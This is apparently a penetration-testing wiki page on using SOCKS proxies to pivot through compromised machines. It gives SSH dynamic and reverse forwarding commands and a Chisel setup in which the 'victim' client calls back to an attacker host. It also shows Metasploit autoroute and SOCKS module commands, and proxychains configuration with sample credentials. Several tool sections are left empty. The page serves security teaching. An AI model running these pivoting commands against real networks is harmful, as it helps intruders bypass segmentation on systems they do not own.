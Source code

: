 ```yaml
---
authors: ShutdownRepo
category: infra
---
```


# 🛠️ SOCKS proxy

## Theory

SOCKS (SOCKet Secure) is a network protocol that allows users to route network traffic to a server on a client's behalf. SOCKS is between the application and the transport layer of the OSI model.

This is especially useful for penetration testing engagements where a target is hiding behind one or multiple firewalls. A compromised server connected to two networks can be used as a SOCKS proxy server to pivot from a network to another.

In short, a SOCKS proxy can relay TCP and UDP connections and hence help bypass network segmentation. It's sort a dynamic [port forwarding](port-forwarding.md) technique.

## Practice

There are two types of dynamic port forwarding used during penetration testing engagements.

* Dynamic port forwarding: tunnel the whole attacker's network traffic (instead of only one port) through a remote machine.
* Reverse dynamic port forwarding: tunnel the whole network traffic from a remote machine through the attacker's machine.

### Basic server setup

> [!TIP]
> While setting up port forwarding, it's important to remember that non-admin users can only open ports above 1024.

In practice, there are many ways to turn a controlled machine into a SOCKS proxy server.

::: tabs

=== SSH commands

One of the most easy is by relying on SSH, however, it requires to have an SSH server running on the controlled machine and a valid account. The tester needs to open an SSH connection to the machine that should be turned into a SOCKS proxy, and supply the `-D` option along with the port to use for tunneling. The command can also be used with `-N` option to make sure no command gets executed after the SSH session is opened.

```bash
ssh -N -D $PORT $CONTROLLED_TARGET
```

Once the ssh command exits successful (or once a session opens) the tester can then proceed to [the usage part](socks-proxy.md#usage). 

A reverse dynamic port forwarding can be also put in place to tunnel a machine's traffic through the attacker machine. It is implemented entirely in the client (i.e. the server does not need to be updated) ([since OpenSSH 7.6](https://www.openssh.com/txt/release-7.6)).

```bash
ssh -N -R $PORT $CONTROLLED_TARGET
```


=== Chisel

[Chisel](https://github.com/jpillora/chisel) is a standalone binary for pivoting on Linux and Windows systems.

Working on a server/client, the binary simply needs to be uploaded on the victim host and executed as server on the attacker machine.

```bash
# attacker
chisel server --reverse --socks5 -p $PORT

# victim
chisel client $ATTACKER_MACHINE_IP:$ATTACKER_MACHINE_PORT R:socks
```


=== SSH config




=== Metasploit

A meterpreter session can be taken advantage of by setting up a SOCKS proxy with the appropriate module.

The first steps consists in creating a route, from a meterpreter shell to the target

```bash
meterpreter > run autoroute -s 10.11.1.0/24
```

The session can then be put in background and, the SOCKS server can be created.

```bash
msf > use auxiliary/server/socks_proxy
msf > set SRVPORT $PORT
msf > set VERSION 4a
msf > run
```

=== Cobalt Strike

=== proxychains

=== 3proxy

=== plink

:::


### Basic client usage

Once the SOCKS proxy server is set up, network traffic can be tunneled through with [proxychains-ng](https://github.com/rofl0r/proxychains-ng) (C), a tool still maintained and more advanced based on the original [proxychains](https://github.com/haad/proxychains) (that is not maintained anymore). The port in use by the SOCKS proxy should be supplied in the configuration file (`/etc/proxychains.conf`) like in the following examples.

```bash
# type ip port [user pass]
socks5 192.168.67.78 1080 lamer secret
socks4 192.168.11.49 1080
http 192.168.89.33 8080 justu hidden
http 192.168.39.93 8080
```

### Chaining proxies

In certain scenarios, SOCKS proxies can be chained. This can easily be used with [proxychains](socks-proxy.md#client-usage). In the following example, SSH is used to turn compromised machines into SOCKS proxy servers.

![](<./assets/Chained dynamic port forwarding diagram.png>)

![](<./assets/Chained dynamic port forwarding commands SSH.png>)
Setting up the SOCKS proxy servers (with SSH){.caption}

![](<./assets/Chained dynamic port forwarding commands proxychains.png>)
Setting up the SOCKS proxy client (proxychains){.caption}

![](<./assets/Chained dynamic port forwarding commands SOCKS.png>)
Attacking the target through the chain of SOCKS proxies{.caption}
